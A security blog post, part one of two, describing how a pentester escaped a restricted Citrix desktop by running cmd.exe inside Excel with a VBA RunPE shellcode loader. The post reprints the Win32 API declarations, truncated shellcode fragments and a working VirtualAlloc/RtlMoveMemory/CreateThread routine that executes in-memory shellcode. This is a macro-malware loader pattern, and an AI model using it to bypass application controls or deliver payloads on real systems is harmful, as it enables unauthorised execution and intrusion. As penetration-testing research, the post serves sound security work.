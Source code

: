 ```yaml
---
title: "VBA RunPE - Breaking Out of Highly Constrained Desktop Environments - Part 1/2"
layout: "post"
categories: "Windows"
tags: ["Research", "Bypass"]
---
```


In this post, I'd like to share a technique that I often use to break out of highly constrained desktop environments such as CItrix. The only prerequisite is to have access to _Microsoft Word_ or _Excel_ with the VBA editor enabled. 


## Background

During an engagement, I had to assess the security level of a thick client on a Citrix virtual desktop. Usually, this kind of audit is quite easy. You find a way to open an _Explorer_ window, you access the `C:\` drive, execute `cmd.exe` or, even better, `powershell.exe`, and it's almost game over. If you're lucky enough, you will even find a vulnerability to escalate your privileges.

This time, however, it was different. I was able to quickly open an ``Explorer`` window - using the `File > Open...` menu - but, from there, I got an `Access Denied` error message with every application I tried to execute. None of the techniques listed in the [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) worked. 

The `Access Denied` error messages I got were not caused by _AppLocker_ but by a third-party security product: _[AppSense](https://www.ivanti.com/company/history/appsense)_ by _Ivanti_, and it was properly configured. Nevertheless, I spotted a potential weakness...


## The weakness 

After a few hours spent on looking for what I could execute on the virtual desktop, I came to the conclusion that only the thick client itself and _Microsoft Excel_ were accessible with my current privileges. So, I opened _Excel_ and enabled the _Developer tab_ to access the VBA editor. This was my way out...

This will probably seem an obvious avenue to explore for the most experienced pentesters but, at that time, it was not for me. I only knew that I could use `Metasploit` to generate shellcodes as VBA payloads but I also knew that they would be detected by the antivirus software. 


## VBA to the rescue

From there, I've done a lot of research to see what I could do with the VBA editor, and I stumbled upon [Didier Stevens' blog](https://blog.didierstevens.com/). For those of you, like me at that time, who never heard of him before, he is a Belgian security researcher, who works a lot on malicious _Office_ documents and ways to analyze and detect them.

One of his posts caught my attention: [Create Your Own CMD.XLS](https://blog.didierstevens.com/2016/02/10/create-your-own-cmd-xls/). It was about running `cmd.exe` within _Excel_ without creating a new process. Wait...! What...?!

![](/assets/posts/2018-12-12-vba-runpe-part1/01_stevens-blog-cmd-xls.png)

As we can see on his screenshot, the title of the command prompt window is actually the path of the _Excel_ executable. How is that possible and how will it help us?


## RunPE in VBA

Didier Stevens actually implemented a variant of the _RunPE_ technique in VBA. RunPE is a trick that has been used by malware authors for many years. It consists in running code inside the memory of a legit process in order to hide its actual ativity. 

I won't digress too much and explain what _RunPE_ is in detail. Instead, I will try to explain how his code works. You can follow along by downloading it [here](https://didierstevens.com/files/software/cmd-dll_v0_0_4.zip).

### 1) Importing WIN32 functions 

One of the most powerful features of VBA is the possibility to import functions from the Windows API. That's exactly what the first lines of his code do. They import 3 functions from `kernel32.dll`:

- [VirtualAlloc](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887(v=vs.85).aspx)
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/desktop/devnotes/rtlmovememory)
- [CreateThread](https://msdn.microsoft.com/en-us/library/windows/desktop/aa374779(v=vs.85).aspx)

```vb
Private Declare Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Sub RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As Long, ByVal sSource As String, ByVal lLength As Long)
Private Declare Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, ByVal lpParameter As Long, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As Long
```

These functions are also the ones thet are typically used to execute a _shellcode_ on Windows. 

### 2) Defining structures and constants

A lot of structures and constants are defined in the Windows API. The problem is that VBA is _not aware_ of these definitions. So we have to declare them manually. 

Here, we are lucky, only two constants are required by `VirtualAlloc` and that's all.

- `MEM_COMMIT`
- `PAGE_EXECUTE_READWRITE`

```vb
Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40
```

### 3) The shellcode 

The objective is to run `cmd.exe` within _Excel_. To do so, the `cmd.exe` PE file was extracted from [ReactOS](https://reactos.org/) and converted to an alphanumeric shellcode. However, this operation has a cost. It generates a huge string that needs to be embedded into the code. To add to the challenge, the VBA editor has several restrictions: the length of the lines of code and functions are limited. 

Therefore, the shellcode needs to be constructed from the concatenation of multiple blocks, which are themselves the concatenation of multiple strings. 

The blocks are constructed like this:

```vb
Private Function ShellCode1() As String
    Dim sShellCode As String

    sShellCode = ""
    sShellCode = sShellCode + "6FoIAADDVYnlUVZXi00Mi3UQi30U/zb/dQjoGQAAAIkHgccEAAAAgcYEAAAA4uZfXlmJ7F3CEABVieVT"
    sShellCode = sShellCode + "VldRZP81MAAAAFiLQAyLSAyLEYtBMGoCi30IV1DoWwAAAIXAdASJ0evni0EYUItYPAHYi1h4WFABw4tL"
    sShellCode = sShellCode + "HItTIItbJAHBAcIBw4syWFABxmoB/3UMVugjAAAAhcB0CIPCBIPDAuvjWDHSZosTweICAdEDAVlfXluJ"
    sShellCode = sShellCode + "7F3CCABVieVRU1IxyTHbMdKLRQiKEIDKYAHT0eMDRRCKCITJ4O4xwItNDDnLdAFAWltZiexdwgwAVYnl"
    sShellCode = sShellCode + "g30MAHUVi0UQUGoAi00I/1EoUItFCP9QDOsXi1UQUotFDFBqAItNCP9RKFCLRQj/UBBdwgwAVYnlg+wU"
    sShellCode = sShellCode + "i0UUi0gEiU3wi1UUiwKLTRSLEQ+3ShSNVAgYiVXsx0X8AAAAAOsM/0X8i03sg8EoiU3si1UUiwIPt0gG"
    '[snip]
    
    ShellCode1 = sShellCode
End Function
```

The blocks are then assembled like this:

```vb
Private Function ShellCode() As String
    Dim sShellCode As String

    sShellCode = chr(&hEB) + chr(&h3A) + chr(&h31) + chr(&hD2) + chr(&h80) + chr(&h3B) + chr(&h2B)
    '[snip]
    sShellCode = sShellCode + ShellCode1()
    sShellCode = sShellCode + ShellCode2()
    sShellCode = sShellCode + ShellCode3()
    sShellCode = sShellCode + ShellCode4()
    '[snip]
    sShellCode = sShellCode + ShellCode204()
    sShellCode = sShellCode + ShellCode205()
    sShellCode = sShellCode + ShellCode206()
    sShellCode = sShellCode + ShellCode207()
    sShellCode = sShellCode + ShellCode208()

    ShellCode = sShellCode
End Function
```

Calling the `ShellCode()` function will therefore _dynamically_ generate the entire shellcode in memory.

### 4) Executing the shellcode

Once the shellcode is constructed, it can be executed the same way it would be in a standard Windows console application written in C++. First, a buffer is allocated using `VirtualAlloc` with `EXECUTE` permission. Then, the content of the shellcode is copied to the allocated buffer. Finally, a new thread is created by specifying the address of the buffer as a pointer to the thread `StartFunction`.  

```vb
Public Sub ExecuteShellCode()
    Dim sShellCode As String
    Dim lpMemory As Long
    Dim lResult As Long

    sShellCode = ShellCode()
    lpMemory = VirtualAlloc(0&, Len(sShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    RtlMoveMemory lpMemory, sShellCode, Len(sShellCode)
    lResult = CreateThread(0&, 0&, lpMemory, 0&, 0&, 0&)
End Sub
```


## Conclusion

Et voilà! We have a VBA macro that can be used to run `cmd.exe` within _Word_ or _Excel_. This can bypass any restriction as long as you have access to one of these two _Office_ products and the VBA editor is enabled. 

However, it has several drawbacks:

### It only runs `cmd.exe`

Thanks to the command prompt, we can browse the entire file system easily, and... ...that's about all. Indeed, we won't be able to execute any other commands since it would require the creation of subprocesses. In addition, the shellcode was developed to run `cmd.exe` only and creating a new one to execute another PE file might represent a tedious task. 

### __It is only 32-bit compatible__

This time, I was very lucky because a 32-bit version of _Office_ was installed in the virtual environment. If a 64-bit version was installed instead, the code would have failed. 

### __The code is huge!__

The final size of the VBA code is more than 2.2MB, for a total of more than 22,000 lines of code. A detail that I didn't mention in my scenario is the fact that file transfers between the host and the virtual desktop were also forbidden. Fortunately, it was still possible to use the clipboard but since its size was limited, I had to copy the entire code piece by piece manually. I could have used something like a _[Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe)_ to work around this issue but I figured that the risk of failure was too high because of the huge amount of code to type.

But don't get me wrong, I'm very impressed by Didier Stevens' work and it clearly saved my day because I had nothing else to rely on. However, it was one of those times when you think you could have done better. So, I decided to make my own version and I implemented the full RunPE technique in VBA to address these limitations. 

The development process will be discussed in part 2... ;)

